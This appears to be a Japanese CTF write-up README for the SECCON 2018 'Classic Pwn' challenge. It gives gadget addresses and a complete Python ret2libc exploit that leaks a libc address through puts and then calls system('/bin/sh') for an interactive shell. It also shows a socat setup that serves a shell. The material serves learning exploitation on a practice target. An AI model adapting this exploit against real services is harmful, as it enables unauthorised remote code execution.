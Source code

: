 # PWNオーバーフロー入門: 64bit環境でのアドレスリークを利用してシェルを起動 (SSP、PIE無効で64bit ELF) Classic Pwn 2回目

## はじめに

[saru2017/pwn008: PWNオーバーフロー入門: 64bit環境でのROPコード (SSP、PIE無効で64bit ELF) Classic Pwn 1回目](https://github.com/saru2017/pwn008)で途中で挫折した[SECCON 2018 Online CTF](https://score-quals.seccon.jp/) [Classic Pwn](https://score-quals.seccon.jp/challenges#Classic%20Pwn)に再チャレンジ。

基本は[saru2017/pwn009: PWNオーバーフロー入門: ASLR有効状態でアドレスリークを利用してシェルを起動 (SSP、PIE無効で32bit ELF)](https://github.com/saru2017/pwn009)で行けるはず。


## アドレス調べ

必要なのは

- 基本
  - bufsize
- gadget
  - pop_rdi_ret
  - popret
  - pop2ret
  - pop3ret
- 絶対アドレス
  - main_addr
  - libc_start_main_got
  - puts_plt
- 相対アドレス
  - libc_start_main_rel
  - system_rel
  - binsh_rel

挫折したやつの情報を再利用すると[saru2017/pwn008: PWNオーバーフロー入門: 64bit環境でのROPコード (SSP、PIE無効で64bit ELF) Classic Pwn 1回目](https://github.com/saru2017/pwn008)

### ローカルで動かす場合

- 基本
  - bufsize = 72
- gadget
  - pop_rdi_ret = 0x00400753
  - popret = 0x00400753
  - pop2ret = 0x00400751
  - pop3ret = 0x0040074e
- 絶対アドレス
  - main_addr = 0x004006a9
  - libc_start_main_got =  0x00601030
  - puts_plt = 0x00400520
- 相対アドレス
  - libc_start_main_rel = 0x00021ab0
  - system_rel = 0x0004f440
  - binsh_rel =  0x001b3e9a
  - puts_rel = 0x000809c0

## exploitコード

```python
import sys
import socket
import time
import telnetlib
from haclib import *


bufsize = 72
pop_rdi_ret = 0x00400753
popret = 0x00400753
pop2ret = 0x00400751
pop3ret = 0x0040074e
main_addr = 0x004006a9
libc_start_main_got =  0x00601030
puts_plt = 0x00400520

def main():
    buf = b'A' * bufsize
    buf += p64(popret)
    buf += p64(libc_start_main_got)
    buf += p64(puts_plt)
    buf += p64(main_addr)
    buf += b'\n'

#    sys.stdout.buffer.write(buf)
#    sys.exit()

    if(len(sys.argv) > 1):
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)
        sock.connect(("classic.pwn.seccon.jp", 17354))
        libc_start_main_rel = 0x20740
        system_rel = 0x45390
        binsh_rel = 0x18cd57
        puts_rel = 0x6f690
    else:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)
        sock.connect(("localhost", 28080))
        libc_start_main_rel = 0x00021ab0
        system_rel = 0x0004f440
        binsh_rel =  0x001b3e9a
        puts_rel = 0x000809c0

    time.sleep(1)
    read_until(sock, b"Local Buffer >> ")
    print("Local Buffer >> ")
    time.sleep(1)
    ret = sock.sendall(buf)
    time.sleep(1)

    read_until(sock, b"Have a nice pwn!!\n")
    print("Have a nice pwn!!\n")
    time.sleep(1)

    val = sock.recv(6)
    print(val)
    print(len(val))
    val = val + b'\x00\x00'

    libc_start_main_addr = u64(val)
    print("%x" % (libc_start_main_addr))
    libc_base = libc_start_main_addr - libc_start_main_rel
    print("%x" % (libc_base))
    system_addr = libc_base + system_rel
    binsh_addr = libc_base + binsh_rel
    puts_addr = libc_base + puts_rel

    time.sleep(1);

    buf = b'A' * bufsize
    buf += p64(popret)
    buf += p64(binsh_addr)
#    buf += p64(puts_addr)
    buf += p64(system_addr)
    buf += b'BBBBBBBB'
    buf += b'\n'

    time.sleep(1)
    read_until(sock, b"Local Buffer >> ")
    print("Local Buffer >> ")

    time.sleep(1)
    ret = sock.sendall(buf)
    time.sleep(1)
    read_until(sock, b"Have a nice pwn!!\n")
    print("Have a nice pwn!!\n")

    print("interact mode")
    t = telnetlib.Telnet()
    t.sock = sock
    t.interact()



if __name__ == "__main__":
    main()
```

## はまったところ

### 1BOF目のputs@pltでの出力

libc_start_mainはたぶん0x00007f76eed1aab0な感じのアドレスになっていて、これをputsで吐かせてプログラムで読み取る。
この時バイト列としては0xb0 0xaa 0xd1 0xee 0x76 0x7f 0x00 0x00のような形で飛んできて後ろについてる0x00 0x00がNULL文字判定されて0xb0 0xaa 0xd1 0xee 0x76 0x7fしか飛んでこない。
ここに気付くのに結構時間がかかった。
コードで対処法は書いてある通り6バイト読んで後ろに2バイト分の0をくっつける。

```python
val = sock.recv(6)
val = val + b'\x00\x00'
libc_start_main_addr = u64(val)
```

### system("/bin/sh")をtelnet経由でアクセスする

これは未だに原因が分かってないのだけど例えば

```c
#include <stdio.h>

int main()
{
  system("/bin/sh");
  return 0;
}
```

みたいなプログラムがあって、それをsocatから

```
$ socat TCP-LISTEN:28080,reuseaddr,fork EXEC:./a.out
```

とアクセスできるようにしておく。
これに対してtelnetで接続するとちゃんとシェルが動きそうな気がするのだけど動かないという事象にはまった。

## 参考

- [SECCON 2018 Online CTF Writeup - yyy](http://ywkw1717.hatenablog.com/entry/2018/10/28/185936)
- [SECCON 2018 Online CTF Writeup Pwn:classic - Qiita](https://qiita.com/GmS944y/items/4821a631a6d34b54ab8d)
- [SECCON 2018 Online CTF Writeup - Qiita](https://qiita.com/kusano_k/items/2ec7eb22d8c556262724)
- [SECCON 2018 Quals write-up (classic, kindvm, gacha lv.1/2, shooter last part) - cookies.txt　　　　　　.scr](https://cookies.hatenablog.jp/entry/2018/10/28/184145)
- [SECCON 2018 Write-up - satto1237’s diary](https://satto.hatenadiary.com/entry/seccon-2018)
- [Classic Pwn (SECCON 2018 Online CTF) | 幼い備忘録](https://osanamity.net/2018/11/06/110940)
- [SECCON CTF 2018 QUALS writeup - yuta1024's diary](http://yuta1024.hateblo.jp/entry/2018/11/01/215302)
- [CTFtime.org / SECCON 2018 Online CTF / classic / Writeup](https://ctftime.org/writeup/11987)

